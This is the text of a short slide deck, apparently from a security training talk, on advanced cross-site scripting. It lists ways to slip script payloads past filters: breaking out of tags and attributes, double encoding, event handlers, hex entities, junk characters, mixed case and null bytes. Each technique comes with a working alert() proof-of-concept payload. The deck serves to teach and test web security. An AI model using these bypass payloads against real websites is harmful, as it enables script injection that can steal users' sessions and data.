

# Advanced XSS
A Quick Recap
XSS is a way of inserting malicious HTML code into a page
There are a few main types: Reflected, DOM, and Stored
XSS Defence Bypass
Figure out what defences are being applied (if any). Are elements being deleted? Where is your code inserted?
Match tags on HTML Element Content (e.g. </p><script>alert(‘xss’)</script><p>)
Insert into HTML Element Attributes ("><script>alert(document.domain)</script> or " autofocus onfocus=alert(document.domain) x=")
Double encoding (%253Cscript%253Ealert('XSS')%253C%252Fscript%253E or <<script>Foo</script>iframe src="javascript:alert(‘xss’)">)
Use event handlers over script tags (<img src/onerror=alert(‘xss’)> or <div onmouseover="alert(1)">test</div>)
Encoding forbidden words in hexadecimal with leading 0s (<img onerror=a&#x006c;ert(1) src=a>)
Use same source or default source payloads (<img src=# onerror="alert('xxs')"> or <script src=“/path/to/malicious”></script>)
Add junk after tag name or replacing spaces before attributes (<script/anyjunk>alert(1)</script> or <img/anyjunk/onerror=alert(1) src=a>)
Add tabs and spaces (<script&#9>alert(1)</script>), wacky casing (<ScRipT>alert(1)</sCriPt>) and null bytes (<%00script>alert(1)</script>) all over the place! You only have to get lucky once...